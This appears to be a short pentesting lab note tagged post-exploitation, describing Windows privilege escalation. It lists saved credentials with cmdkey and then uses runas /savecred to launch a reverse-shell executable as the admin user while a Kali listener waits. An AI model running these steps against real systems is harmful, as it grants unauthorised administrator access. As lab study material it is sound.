 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```


1. List any saved credentials:

```
cmdkey /list
```

> [!NOTE]
> Credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

2. Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```